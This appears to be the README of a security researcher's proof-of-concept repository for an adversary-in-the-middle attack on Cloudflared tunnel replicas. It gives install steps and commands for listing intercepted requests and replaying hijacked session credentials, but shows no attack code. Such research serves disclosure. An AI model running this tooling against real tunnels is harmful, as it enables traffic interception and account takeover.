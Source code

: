 # cloudflared_aitm_poc

This repository contains a Proof of Concept (PoC) for an **Adversary-in-the-Middle (AiTM)** attack exploiting **Cloudflared replicas**. For a detailed explanation of the attack and its implications, read the full blog post:

👉 [When Replicas Go Rogue - A Deep Dive into Cloudflared Exploitation Scenarios](https://y4nush.com/when-replicas-go-rogue-a-deep-dive-into-cloudflared-replicas-exploitation-scenarios/)

## Usage

Clone the repository:
```bash
git clone https://github.com/Y4nush/cloudflared_aitm_poc.git
cd cloudflared_aitm_poc
```

Run the installation script (⚠️ Warning: Running this will automatically create and run a tunnel, which could cause availability issues):

```bash
sudo bash install.sh
Please enter your Cloudflare Tunnel token: eyJ......
```
## Commands
```bash
-------------------------------------
Available Commands and Their Usage:
-------------------------------------
sudo systemctl stop cloudflared.service && sudo pkill -f aitm.py  # Stops the aitm.py server and the tunnel.

sudo bash install.sh --run  # Runs aitm.py with the previous arguments.

python3 aitm/hijack.py list # Lists all intercepted requests.

python3 aitm/hijack.py poc <session number> # Sends a GET request with hijacked credentials as a PoC.
```
## Environment
Tested on Ubuntu 22.04.5 LTS

<img src="https://github.com/user-attachments/assets/abf5c575-d493-4820-b85b-45e8cb0162fc" alt="image" width="100"/>

